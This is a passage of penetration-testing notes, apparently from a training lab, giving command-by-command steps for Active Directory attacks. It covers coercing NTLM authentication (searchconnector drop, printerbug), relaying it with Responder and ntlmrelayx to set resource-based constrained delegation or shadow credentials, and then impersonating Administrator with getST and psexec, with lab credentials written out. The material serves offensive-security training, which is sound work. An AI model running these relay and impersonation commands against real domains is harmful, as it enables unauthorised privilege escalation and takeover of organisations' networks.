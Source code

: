 For example, if we want to configure `RBCD` on `SQL01$` to trust authentication coming from `WS01$`, we need to set the `msDS-AllowedToActOnBehalfOfOtherIdentity` attribute of `SQL01$` to `WS01$`. `WS01$` can then request service tickets on behalf of any user.

#### Coerce HTTP NTLM authentication to enable WebClient

```bash
# Drop searchconnector file
crackmapexec smb 172.16.117.3 -u anonymous -p '' -M drop-sc -o URL=https://172.16.117.30/testing FILENAME=@secret

# Check if WebDav is enabled
crackmapexec smb 172.16.117.0/24 -u plaintext$ -p o6@ekK5#rlw2rAe -M webdav

# Poison request
sudo python3 Responder.py -I ens192

# Start NTLMrelay with LDAP
sudo ntlmrelayx.py -t ldaps://INLANEFREIGHT\\'SQL01$'@172.16.117.3 --delegate-access --escalate-user 'plaintext$' --no-smb-server --no-dump
```

#### Coerce target into HTTP NTLM authentication against our machine

```bash
python3 printerbug.py inlanefreight/plaintext$:'o6@ekK5#rlw2rAe'@172.16.117.60 LINUX01@80/print
```

#### The impersonate and get a ticket

```bash
# Get ticket
getST.py -spn cifs/sql01.inlanefreight.local -impersonate Administrator -dc-ip 172.16.117.3 "INLANEFREIGHT"/"plaintext$":"o6@ekK5#rlw2rAe"

# And connect 
KRB5CCNAME=Administrator.ccache psexec.py -k -no-pass sql01.inlanefreight.local
```

### <mark style="color:yellow;">Shadow Credentials</mark>

`Shadow Credentials` attack effectively adds alternative credentials to an account, allowing attackers to obtain a TGT and subsequently the NTLM hash.

#### Start poisoning and run ntlmrelay

Ntlmrelayx.py will save the `.PFX` certificate and provide the password.

```bash
# Responder
sudo python3 Responder.py -I ens192

# Relay targeting LDAP using NTLM auth
ntlmrelayx.py -t ldap://ZENCORP.LOCAL\\CJAQ@172.16.117.3 --shadow-credentials --shadow-target jperez --no-da --no-dump --no-acl
```
